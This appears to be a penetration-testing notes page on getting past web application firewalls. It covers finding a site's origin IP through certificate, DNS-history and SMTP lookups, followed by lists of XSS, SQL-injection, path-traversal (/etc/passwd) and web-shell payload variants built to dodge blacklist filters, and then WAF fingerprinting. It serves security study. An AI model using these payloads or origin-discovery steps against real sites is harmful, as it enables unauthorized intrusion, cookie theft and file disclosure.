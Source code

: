 ```yaml
---
title: WAF Evasion
category: Enumeration
order: 5
---
```


In this section I will explain techniques to found the original IP of the hosted webapp.

# SSL Certificates

First we need to look inside the SSL Certificate of the webapp in order to find the fingerprint \(SHA256\)

![Fingerprint of SSL Certifcate](/hackingnotes/images/fingerprint_ssl.png)

With [censys](https://censys.io/certificates) you can search different hosted webpages with the same SSL fingerprint, so these are from the same company.

* [https://censys.io/certificates](https://censys.io/certificates)

![Censys results.](/hackingnotes/images/censys_waf_bypass.png)

Once you obtained the different domains or IPs that have the same fingerprint try to discover the IPs and play with the `Host HTTP header.`

```
curl -kv https://190.12.34.42/
```

It's common that the companies buys a range of IPs, so you should need to check more parent IPs.

```
curl -kv https://190.12.34.40/
curl -kv https://190.12.34.41/
curl -kv https://190.12.34.43/
curl -kv https://190.12.34.44/
curl -kv https://190.12.34.45/
curl -kv https://190.12.34.46/
```

# DNS History

Some times the companies put a WAF on a web application, but they don't configure it properly and any source IP instead of only the WAF can request the server.

So we can check the DNS history with `viewdnsinfo` to search the old IP.

* [https://viewdns.info/iphistory/](https://viewdns.info/iphistory/)

![ViewDNS.info](/hackingnotes/images/viewdns_info.png)

Finally with `suip.biz` we can check which apps are hosted on a server.

* [https://suip.biz/?act=hostmap](https://suip.biz/?act=hostmap)

![ViewDNS.info](/hackingnotes/images/suip.png)

# Via SMTP Functionalities

SMTP headers can reveal a lot of value information. If a SMTP functionality is found on the web appliaction try to send a mail to a known recipient to check these headers in order to find the real webserver IP.

![SMTP Headers](/hackingnotes/images/smtp_headers.png)

# Bypassing blacklisting WAFs

The whitelisting mode is prone to false positives, which is the reason it is very common to find WAFs deployed in blacklisting mode rather than whitelisting mode.

The blacklisting mode is a collection of well-known attacks. WAF producers put together a list of rules to protect a web application against various attack vectors that are used to exploit the most common vulnerabilities.

So we can use different payloads to bypass some filters.

## Cross-Site Scripting (XSS)

* Instead of using `alert('xss')` or `alert(1)` we can choose a better option:
```
prompt('xss')
prompt(8)
confirm('xss')
confirm(8)
alert(/xss/.source)
window[/alert/.source](8)
```

* Instead of using `alert(document.cookie)` we can use:
```
with(document)alert(cookie)
alert(document['cookie'])
alert(document[/cookie/.source])
alert(document[/coo/.source+/kie/.source])
```

* Instead of using `<img src=x onerror=alert(1);>` we can use:

```
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
```

* Instead of `javascript:alert(document.cookie)` we can use:
```
data:text/html:base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

## Blind SQL Injection (Blind SQLi)

* Instead of using `' or 1=1` we can use:
```
' or 6=6
' or 0x47=0x47
or char(32)=''
or 6 is not null
```
* Instead of `UNION SELECT` we can use:
```
UNION ALL SELECT
```

## Directory Traversal

* Instead of using `/etc/passwd` we can use:
```
/too/../etc/far/../passwd
/etc//passwd
/etc/ignore/../passwd
/etc/passwd.......
```

## Web Shell

* Instead of using `c99.php` , `r57.php` , `shell.aspx` , `cmd.jsp`, `CmdAsp.asp` we can use:
```
augh.php
```

# WAF Detection and Fingerprinting

WAF systems leave several footprints of their presence, which allow us to detect which WAF is in place.

`wafw00f` is a tool that can detect up to 20 different WAF products.

```
wafw00f www.example.com
```
Also it can be possible to detect the WAF vendor with a nmap script.
```
nmap --script=http-waf-fingerprint www.imperva.com -p 80
```
## Cookie Values

Some WAF systems reveal their presence through cookies.

| WAF Vendor | Cookies |
| :--- | :--- |
| Citrix Netscaler | n_saf, citrix_ns_id or NSC_ |
| F5 BIG-IP ASM | ^TS[a-zA-Z0-9]{3,6} |
| Barracuda | barra_counter_session and BNI__BARRACUDA_LB_COOKIE |

## Header Rewrite

Some WAFs rewrite the HTTP headers. Usually modify the Server header.

* Original Request
```
HTTP/1.1 200 OK
Date: Mon, 7 Apr 2014 10:10:50 GMT
Server: Apache (Unix)
Content-Type: text/html
Content-Length: 2506
```
* Modified Request
```
HTTP/1.1 404 Not Found
Date: Mon, 7 Apr 2014 10:11:06 GMT
Server: Netscape-Enterprise/6.1
Content-Type: text/html; 
Content-Length: 158
```